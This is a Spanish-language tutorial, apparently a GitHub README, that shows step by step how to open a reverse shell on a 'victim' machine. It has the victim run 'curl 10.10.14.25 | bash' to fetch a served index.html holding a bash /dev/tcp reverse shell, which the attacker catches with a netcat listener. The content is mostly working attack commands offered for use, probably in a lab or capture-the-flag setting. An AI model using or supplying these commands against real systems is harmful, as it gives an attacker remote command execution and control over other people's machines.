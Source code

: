 # Como establecer una reverse Shell con el comando Curl

En este artículo vamos a ver como establecer una `reverse shell` mediante una petición con `Curl`.

## ¿Qué es Curl?

Curl es un herramienta cuya finalidad es transferir datos a través de una URL. Es un comando disponible en la mayoría de los
sistemas basados en Unix. Es una abreviatura de `Client URL`. Los comandos de Curl están diseñados para funcionar como una forma
de verificar la conectividad a las URL y como una gran herramienta para transferir datos.

* Información más detallada del funcionamiento de Curl --> <a href='https://www.hostinger.es/tutoriales/comando-curl' style="text-decoration:none">Link</a>

# Ejecución:

Para realizar esta opeción lo primero que debemos comprobar es que podamos realizar la petición desde el equipo victima y que este tenga Curl instalado.
Una vez tenemos esto solucionado vamos a ver el funcionamiento de manera básica.

Cuando realizamos una petición con Curl desde la máquina victima:

   curl [Ip de Escucha]
   
   curl 10.10.14.25
   
Y nosotros nos ponemos en escucha desde nuestra terminal, utilizando un servicio http montado con python3 por el puerto 80:

   sudo python3 -m http.server 80

El funcionamiento es el siguiente, cuando Curl realiza una petición a nuestro equipo, estamos realizando una perticion a `http` tratando de conseguir
un `Index.html` (Para poder interpretar la página), aquí es donde viene la trampa.

Lo que nosotros vamos hacer es crear nuestro propio archivo `index.html`, de forma que por dentro tenga los comandos para establecer una reverse shell con bash.
De esta manera cuando realicemos la petición por Curl y le ordenemos ejecutarlo con bash se nos abrira la reverse shell que hayamos establecido.

El archivo `index.html` debe guardarse en el mismo directorio desde donde utilicemos el servicio http. 

# Ejemplo Practico:

Vamos a necesitar tres terminales, una desde donde realizar la petición por Curl desde el equipo victima, una segunda donde utilizaremos el servicio http para 
compartir el archivo `index.html` y una tercera donde nos pondremos en escucha con `netcat` (Aquí recibiremos la reverse shell).

Lo primero que vamos hacer es preparar nuestro archivo `index.html`, creamos una carpeta llamada `shell` independiente para que nos sea más facil:

    sudo mkdit shell
    
    cd shell

Ahora creamos y definimos nuestro archivo `index.html`:

   sudo nano Index.html
   
Copiamos y pegamos el siguiente código:

```
#!/bin/bash

bash -i >& /dev/tcp/[Vuestra Ip]/[Puesto de escucha de NetCat] 0>&1

```

Debería de quedar algo así:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.25/443 0>&1
```

Una vez copiado con vuestros datos, guardais (Ctrl x O) y salis (Ctrl + X).

Bien ya tenemos nuestra reverse shell en bash preparada y apuntado al pueto 443. Ahora desde la misma terminal y permaneciendo en el directorio que contenga
el archvio que acabamos de crear vamos a ejecutar el servicio http con python3 para poder compartir el archivo `index.html`.

    sudo python3 -m http.server 80
    
Abrimos nuestra segunda terminal y ponemos a `Netcat` en escucha por el puerto 443:

    sudo nc -lvnp 443
    
Ya tenemos nuestro puerto preparado para recibir la reversehe shell.
    
Finalmente nos dirigimos a la terminal donde estemos en contacto con la victima, es este ejemplo realizare la petición utilizando BurpSuite. Pero básicamente
lo que debemos es realizar la siguiente petición desde el equipo victima:

    curl 10.10.14.25 | bash
    
* `Curl` : Realizara la petición y copiara el archivo index.html desde nuestro servidor creado en python3.
* `bash` : Ordena la ejecución o interpretación del comando definido dentro del archivo, en nuestro caso, estblecer una reverse shell por el puertop 443.

Tras ejecutar este ultimo comando se nos tendría que haber abierto una shell en la terminal por la que estabamos en ecucha con NetCat.



